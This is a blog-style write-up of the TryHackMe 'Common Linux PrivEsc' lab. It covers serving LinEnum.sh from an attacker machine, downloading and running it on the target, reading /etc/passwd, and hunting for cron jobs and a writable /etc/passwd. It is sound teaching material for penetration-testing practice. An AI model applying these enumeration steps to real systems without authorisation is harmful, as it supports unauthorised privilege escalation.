 ```yaml
---
title: Common Linux PrivEsc detailed write-up | TryHackMe
published: true
---
```

Tasks **1**, **2** and **3** don't need explanation.

## Task 4

To get LinEnum on the target's machine, you need to start a server on your local machine (it has to be in the directory where you store LinEnum.sh or you will have to provide the path to it afterwards) and connect to it from the target :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/python%20listener%20server4.png" class="border" />
 
```
python3 -m http.server 8000
```

>The `-m` option is used to search a module and run the corresponding python script, which in this case is an http server.
>The number 8000 is the port that our server will be listening in, you can select any port that's not being used.

Once the server is started, you can request the file you want from the target's console :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/wget%20linenum4.png" class="border" />

```
wget <YOUR MACHINE'S @IP>:8000/LinEnum.sh
```

>`wget` is a network downloader
>By using this command, we are downloading the file `LinEnum.sh` from the server in <YOUR MACHINE'S @IP> that we started before.


Now that LinEnum.sh is on the target's machine, we need to make it executable (because we need to run it in order to start the enumeration process), this is done by using :

```
chmod +x LinEnum.sh
```

To see how Linux file permissions work, you can visit [this page](https://www.redhat.com/sysadmin/manage-permissions) 

Let's now look at how many "user[x]" are there in the system :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20user4.png" class="border" />

```
cat /etc/passwd | grep user*
```
>What we are doing with `cat` is showing in stdout (Standard Output) the contents of the file `/etc/passwd` and piping them into a `grep` command.
>
>`grep` allows us to look for patterns in texts, by typing `grep user*` we are searching for any pattern that contains the word "user" and any other character next to it (this is why we use the wildcard *)

<p class="answer">As we can observe, there are 8 user[x] in the system.</p>

For a beteter understanding of wildcards in Linux, you can visit [this page](https://geek-university.com/linux/wildcard/) 

The next step is to find how many shells are there on the system, to guess so, we need to start enumerating with `LinEnum.sh`.
You can run the script with :

```
./LinEnum.sh
```
>Remember that you have previously dowloaded it, given the proper permissions and you are working in the directory where it is located.

A better way of keeping our enumeration clean and easily manageable is to write the output of `LinEnum.sh` to a `.txt` file :

```
./LinEnum.sh > LinEnum.txt
```

> The file can be named as what you want, but I recommend using a name such as "LinEnum" or "Enumeration".

Once we have run the script, we can look for how many shels there are on the system :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20shell4.png" class="border" />

```
cat linEnum.txt | grep shell
```

**There are 4 shells in the system**

We are now asked what is the name of the bash script that is set to run every 5 minutes by cron.
Cron is used to automate tasks in Linux, its syntax can be a little bit tricky so if you need some more info you can have a look at [this site](https://linuxhandbook.com/crontab/)

Cron jobs are displayed in each user's /etc/crontab file, but since we run `LinEnum.sh` to do the work for us, we can just look for it at its output :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20crontab%204.png" class="border" />

```
cat linEnum.txt | grep crontab -C 10
```

>If you have read the previous tasks, you already know what this is doing, the only novelty is the `-C` option, which specifies how many lines of context you want to display.

**As shown in this output, the `autoscript.sh` file is located in `/home/user4/Desktop directory`**

Finally, we want to search for a file that has had its permissions changed, and now users are allowed to write to it :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/etc%20passwd%20perms4.png" class="border" />

```
find / -perm -200 2>/dev/null
ls -l /etc/passwd
```

>With the `find` command, we can look for files with concrete permissions by using the option `-perm`, to find files with user writing permissions we can look for `-200`, which shows every file which permissions are set to 200 or more.
>
>With `2>/dev/null`, we redirect the stderr (Standard Error) to /dev/null, which is kind of a "black hole" that discards all the data that is writen to it.
>
>For more info on stderr, visit [this page](https://www.howtogeek.com/435903/what-are-stdin-stdout-and-stderr-on-linux/). For more info on /dev/null, check [here](https://en.wikipedia.org/wiki/Null_device).
>
>A lot of files will be shown, but since /etc/passwd is such an important file, we can check its permissions with `ls -l` and see that it can be writen to.


## Task 5

<style>
  .border {   
  border-width: 0px;
  border-color: #7FFF00;
  border-style: groove;
  box-shadow: 0px 0px 8px #ADFF2F} 
 .answer {
 text-shadow : 0px 0px 8px #ADFF2F }
</style>
